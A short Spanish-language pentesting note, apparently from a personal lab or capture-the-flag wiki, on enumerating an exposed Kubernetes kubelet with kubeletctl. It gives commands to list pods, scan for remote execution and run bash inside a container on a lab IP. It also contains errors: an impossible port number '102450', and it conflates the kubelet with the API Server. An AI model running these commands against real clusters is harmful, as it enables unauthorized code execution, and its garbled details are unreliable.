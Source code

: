Si te encuentras los puertos 10249, 102450 y 10256 y el servicio pone --> InfluxDB API seguramente te estés enfrentando al nodo princial de kubernetes el API Server que es llamado Kubelet.

## Enumeración con kubeletctl
[GitHub - cyberark/kubeletctl: A client for kubeletGitHub](https://github.com/cyberark/kubeletctl)

Herramienta para kubelet enumeration

Con la herramienta de arriba podemos enumerar los pods, escanear los nodos, leer los logs de determinado nodo y ejecutar comandos si tenemos permisos en un pod.

### Ejemplos

```
./kubeletctl_linux_amd64 -s 10.10.11.133 pods # enumerar pods
./kubeletctl_linux_amd64 -s 10.10.11.133 scan rce # comprobar si tenemos permisos de ejecución en algun pod
./kubeletctl_linux_amd64 -s 10.10.11.133 -p <pod> -c <container> exec "bash" # ejecutar comand
```